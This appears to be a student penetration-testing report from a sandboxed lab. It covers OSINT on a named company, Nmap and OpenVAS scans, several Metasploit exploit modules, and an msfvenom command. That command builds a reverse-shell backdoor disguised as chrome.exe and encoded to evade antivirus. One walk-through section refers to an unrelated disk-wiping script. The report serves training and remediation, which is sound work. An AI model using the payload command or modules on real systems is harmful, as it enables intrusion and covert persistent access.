




<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
   

<h1>Pen-Test Report</h1>

<h2>Description</h2>

This project demonstrates a penetration testing engagement within a controlled sandbox environment. 
We walk through all phases of the penetration testing lifecycle, including passive OSINT collection, automated reconnaissance,
network scanning (Nmap), vulnerability assessment (OpenVAS), exploitation (Metasploit), and deploying a custom payload.

<h2>Languages and Utilities Used</h2>
<ul>
    <li><b>Kali Linux</b> (Primary Penetration Testing Distribution)</li>
    <li><b>Nmap</b> (Network Mapper)</li>
    <li><b>OpenVAS</b> (Vulnerability Scanner)</li>
    <li><b>Metasploit Framework</b> (Exploitation Framework)</li>
    <li><b>MSFVenom</b> (Payload Generation)</li>
    <li><b>Various OSINT Tools</b> (Spiderfoot, DNSenum, Metagoofil, Sherlock, MXtoolbox, etc.)</li>
</ul>

<h2>Environments Used</h2>
<ul>
    <li><b>Kali Linux VM</b></li>
    <li><b>Target VM(s)</b>: 
        <ul>
            <li>Linux-based server (Ubuntu)</li>
            <li>Windows XP / Server 2003 machine</li>
        </ul>
    </li>
    <li>Optional: Windows 10 (21H2) for demonstration or documentation</li>
</ul>

    <strong>Disclaimer:</strong> 
    This document and its findings are part of a fictitious penetration testing report for learning and training purposes. 
    All reconnaissance, password cracking, and exploiting were done in a sandbox environment consisting of virtual machines 
    and do not represent any actual networks or systems of any organization.

<h2>Cover Page</h2>
<ul>
    <li><strong>Title:</strong> ITT-340 Pen Testing Report</li>
    <li><strong>Author:</strong> Brady Reid</li>
</ul>

<h2>Document Properties (Version Control)</h2>
<table border="1" cellpadding="5" cellspacing="0">
    <thead>
        <tr>
            <th>Version</th>
            <th>Date</th>
            <th>Author</th>
            <th>Changes</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>1</td>
            <td>10/4/2024</td>
            <td>Brady Reid</td>
            <td>Added Passive Corporate Recon OSINT</td>
        </tr>
        <tr>
            <td>1.2</td>
            <td>10/5/2024</td>
            <td>Brady Reid</td>
            <td>Added Automating Information Recon</td>
        </tr>
        <tr>
            <td>1.3</td>
            <td>10/12/2024</td>
            <td>Brady Reid</td>
            <td>Added Nmap Scan</td>
        </tr>
        <tr>
            <td>1.4</td>
            <td>10/20/2024</td>
            <td>Brady Reid</td>
            <td>Added OpenVAS Scan</td>
        </tr>
        <tr>
            <td>1.5</td>
            <td>10/29/2024</td>
            <td>Brady Reid</td>
            <td>Added Metasploit</td>
        </tr>
        <tr>
            <td>2.0</td>
            <td>11/3/2024</td>
            <td>Brady Reid</td>
            <td>Added Custom Payload</td>
        </tr>
    </tbody>
</table>

<h2>Executive Summary</h2>

This penetration test focused on identifying vulnerabilities within a controlled lab environment that simulated real-world systems.
Key findings included outdated software, weak encryption algorithms, and misconfigurations. Exploitations demonstrated unauthorized 
access via known vulnerabilities, culminating in potential data exfiltration and persistent access using custom payloads.

Mitigation strategies include regular patching, upgrading end-of-life operating systems, restricting SSH/SMB services, and using 
encryption best practices. By following these recommendations, organizations can reduce the attack surface and strengthen their security posture.

<h2>Passive OSINT</h2>

<h4>Summary</h4>

Passive OSINT was conducted on “Discount Tire,” a chosen Fortune 500 company. Publicly available tools like MXtoolbox, Whois, 
and LinkedIn provided DNS records, email addresses, subdomains, and basic corporate insights. Further domain enumeration was 
carried out via Sublist3r to identify additional publicly registered domains.

<h4>Recommendations</h4>
<ul>
    <li>Use social media with caution; limit personal/company data exposure.</li>
    <li>Avoid posting sensitive internal information on public websites.</li>
    <li>Regularly review privacy settings and corporate policies for data leaks.</li>
</ul>

<h4>Scope</h4>

Utilized OSINT within a Kali Linux VM environment using standard passive reconnaissance tools. All information collected was 
publicly accessible.

<h4>Details</h4>

Tools Employed:

<ul>
    <li><b>MXtoolbox</b> – Discovered DNS records, DMARC, and IP information.</li>
    <li><b>Whois</b> – Uncovered domain registrar details, server names, and key contact IDs.</li>
    <li><b>LinkedIn</b> – Found executive headquarters in Scottsdale, AZ, leadership contacts.</li>
    <li><b>Sublist3r</b> – Enumerated subdomains owned by Discount Tire.</li>
</ul>

<h2>Automating Information Recon</h2>

<h4>Summary</h4>

Building on passive OSINT, several automation scripts were utilized to scrape deeper data from the target. Tools like Spiderfoot, 
DNSenum, Metagoofil, and Sherlock revealed possible vulnerabilities, metadata from public documents, and additional open-source 
intelligence that is not easily visible through manual searches.

<h4>Recommendations</h4>
<ul>
    <li>Periodically audit and remove old or sensitive data from public-facing websites.</li>
    <li>Use website crawlers or scanners to self-assess public exposure of sensitive files.</li>
    <li>Review social media and online service accounts for potential username exposures.</li>
</ul>

<h4>Scope</h4>

Executed within a Kali Linux VM using scripts like Spiderfoot, DNSenum, Metagoofil, and Sherlock to aggregate data from multiple 
sources efficiently.

<h4>Details</h4>
<ul>
    <li><b>Spiderfoot</b> – Aggregated domain/IP information, potential vulnerabilities, and other OSINT data.</li>
    <li><b>DNSenum</b> – Enumerated DNS records, subdomains, mail servers, and other DNS-related data.</li>
    <li><b>Metagoofil</b> – Extracted metadata (authors, creation dates) from publicly available PDFs.</li>
    <li><b>Sherlock</b> – Enumerated the handle “DiscountTire” on various social platforms.</li>
</ul>

<h2>Nmap Scan</h2>

<h4>Summary</h4>

Nmap was utilized to scan two virtual machine targets for open ports, running services, and OS fingerprinting. The purpose 
was to identify potential security issues arising from outdated services and misconfigurations.

<h4>Recommendations</h4>
<ul>
    <li><strong>Host: 192.168.0.2</strong>
        <ul>
            <li>Upgrade Apache from version 2.2.8 to a more current release.</li>
            <li>Restrict SSH (Port 22) to trusted IP addresses.</li>
            <li>Update MySQL from version 5.0.51a-3ubuntu5 to a supported version.</li>
        </ul>
    </li>
    <li><strong>Host: 192.168.0.3</strong>
        <ul>
            <li>Upgrade from Windows XP/Server 2003 to a supported OS.</li>
            <li>Disable SMB (Ports 139/445) if not necessary to reduce attack surface.</li>
        </ul>
    </li>
</ul>

<h4>Scope</h4>

Conducted a range of scans with Nmap against two VMs in a lab environment. The objective was to locate active services and 
ascertain OS details for vulnerability analysis.

<h4>Details</h4>

Commands used included variations of <code>nmap -p- -O -sV [Target_IP]</code>. Discovered services included FTP, SSH, HTTP, Samba, 
MySQL, and PostgreSQL. Version detection pointed to multiple outdated services, which attackers typically target for easy exploits.

<h2>OpenVAS</h2>

<h4>Summary</h4>

An OpenVAS vulnerability assessment was performed on two VM targets. The scan uncovered a range of vulnerabilities, including 
outdated encryption protocols, end-of-life operating systems, and cleartext transmissions. 

<h4>Recommendations</h4>
<ul>
    <li>Upgrade/Reconfigure weak SSH algorithms (host key, KEX, MAC).</li>
    <li>Enforce encrypted transmission (HTTPS over HTTP).</li>
    <li>Disable TCP timestamps to reduce information disclosure.</li>
    <li>Disable ICMP timestamp responses to prevent potential reconnaissance.</li>
    <li>Update or replace end-of-life operating systems.</li>
</ul>

<h4>Scope</h4>

Two VMs were scanned, focusing on identifying critical vulnerabilities. Issues were categorized into encryption weaknesses, 
outdated systems, and information disclosures.

<h4>Details</h4>
<ul>
    <li><b>EOL OS</b>: Increases risk due to lack of security patches. 
         <em>Remediation:</em> Upgrade to supported OS versions.</li>
    <li><b>Weak SSH Algorithms</b>: Could compromise session encryption. 
         <em>Remediation:</em> Use modern ciphers and key exchange algorithms.</li>
    <li><b>Cleartext Transmission (HTTP)</b>: Allows man-in-the-middle attacks. 
         <em>Remediation:</em> Implement HTTPS with valid SSL/TLS certificates.</li>
    <li><b>TCP Timestamps &amp; ICMP Timestamp Replies</b>: Leaks system uptime info. 
         <em>Remediation:</em> Disable timestamps to reduce reconnaissance capabilities.</li>
</ul>

<h2>Exploitation Using Metasploit (v6.4.20-dev)</h2>

<h4>Summary</h4>

Metasploit was used to exploit several of the vulnerabilities identified in earlier assessments. Exploit modules targeting 
outdated Drupal, Windows local privilege escalation, and Samba usermap_script were launched to gain shell access and elevate privileges.

<h4>Recommendations</h4>
<ul>
    <li>Apply critical security updates for both OS and applications.</li>
    <li>Harden firewall rules to restrict dangerous ports.</li>
    <li>Limit administrative privileges and audit user access periodically.</li>
</ul>

<h4>Scope</h4>

Testing was isolated to two VMs (RHOST 192.168.56.101 &amp; .102) within a lab. All exploits were performed ethically with 
permission for demonstration purposes.

<h4>Details</h4>
<ol>
    <li><strong>Initial Exploitation (Drupalgeddon2)</strong>
        <ul>
            <li>Exploit: <code>exploit/unix/webapp/drupal_drupalgeddon2</code></li>
            <li>Outcome: Remote command shell on the target.</li>
        </ul>
    </li>
    <li><strong>Privilege Escalation (Kitrap0d)</strong>
        <ul>
            <li>Exploit: <code>exploit/windows/local/ms10_015_kitrap0d</code></li>
            <li>Outcome: SYSTEM-level access on a Windows XP/Server 2003 VM.</li>
        </ul>
    </li>
    <li><strong>Service Exploitation (Samba usermap_script)</strong>
        <ul>
            <li>Exploit: <code>exploit/multi/samba/usermap_script</code></li>
            <li>Outcome: Access to sensitive files on a Samba share.</li>
        </ul>
    </li>
    <li><strong>Final Payload Deployment</strong>
        <ul>
            <li>Attempted Meterpreter persistence. Encountered environment restrictions (<em>“Lopes cloud did not like Meterpreter”</em>).</li>
        </ul>
    </li>
</ol>

<h2>Custom Payload</h2>

<h4>Summary</h4>

Using MSFVenom, a custom backdoor executable (<code>chrome.exe</code>) was generated to establish a persistent reverse TCP Meterpreter session. 
This highlighted how an attacker could maintain long-term access even after reboots.

<h4>Recommendations</h4>
<ul>
    <li>Apply critical security updates to operating systems and applications.</li>
    <li>Harden firewall rules to limit exposure of common attacker ports.</li>
    <li>Enforce least-privilege across all user accounts.</li>
</ul>

<h4>Scope</h4>

The payload was tested against a single VM (RHOST 192.168.56.101) in a sandboxed environment using Kali Linux 
(LHOST 192.168.56.107) for reverse connections.

<h4>Details</h4>
<ol>
    <li><b>Payload Creation:</b>
        <ul>
            <li>Command: 
            <code>msfvenom -p windows/meterpreter/reverse_tcp StageRetryCount=17280 LHOST=192.168.56.107 LPORT=4312 -a x86 
                 --platform windows -e x86/shikata_ga_nai -i 3 -f exe &gt; chrome.exe</code></li>
            <li>Encoded with <code>x86/shikata_ga_nai</code> to evade detection.</li>
        </ul>
    </li>
    <li><b>Deployment:</b>
        <ul>
            <li>Transferred <code>chrome.exe</code> to target VM and executed.</li>
            <li>Gained persistent Meterpreter session over reverse TCP.</li>
        </ul>
    </li>
    <li><b>Final Payload Deployment:</b>
        <ul>
            <li>Attempted advanced persistence methods; environment blocked standard Meterpreter persistence.</li>
        </ul>
    </li>
</ol>

<h2>Program Walk-Through (Example Screenshots)</h2>

Below is a generic example showcasing a PowerShell-based disk wiping script. In a real engagement, you would include screenshots 
of your OSINT, Nmap, OpenVAS, or Metasploit sessions. For illustration, we show sample images related to a disk sanitization process:

      
      
      
      
      
      

In a real Pen-Test report, replace these images with relevant screenshots of your scans, exploits, 
and payload deployments to illustrate the findings and confirm successful exploits.

<h2>Conclusion and Next Steps</h2>

The penetration testing engagement demonstrated multiple weaknesses across different layers: 
public information leakage, vulnerable services, unpatched operating systems, and insufficient 
encryption. By prioritizing patch management, restricting network services, and enforcing strong 
authentication, an organization can greatly reduce its threat surface.

A follow-up assessment is recommended to ensure that vulnerabilities have been properly mitigated 
and to confirm that any newly introduced changes do not introduce further risk.

</body>
</html>
